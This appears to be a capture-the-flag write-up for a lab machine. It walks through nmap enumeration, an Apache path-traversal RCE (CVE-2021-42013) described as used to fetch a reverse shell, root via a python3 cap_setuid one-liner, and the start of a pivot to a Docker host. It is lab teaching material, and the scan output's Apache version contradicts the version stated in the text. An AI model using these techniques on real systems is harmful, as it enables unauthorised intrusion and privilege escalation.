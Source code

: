 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx ohmywebserver.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV ohmywebserver.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# HTTP (port 80)
by exploring the website and doing a feroxbuster, we found nothing interesting\
but if we look at the apache version, it's 2.4.49 : it's vulnerable to a remote command execution (CVE-2021-42013)\

so we use a script to first curl and get a shell.py reverse shell in /tmp and then execute the script
```
daemon@4a70924bafa0:/bin$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
so we are daemon\
if we look at capabilities, we found out there is a capability on python3 to set a uid
```
daemon@4a70924bafa0:/bin$ getcap / -r 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:/bin$
```

let's exploit it with the following command
```
daemon@4a70924bafa0:/bin$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@4a70924bafa0:/bin#
```

now we are root, there is a user.txt in /root/user.txt\
we see we are at the ip 172.17.0.2 so seems the host is under 172.17.0.1; let's try to nmap it by curl a nmap amd64 to the victim machine\
\
here is the result of the nmap on 172.17.0.1
```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:33:47:99:50 (Unknown)
```

let's try to exploit the open port here 5986
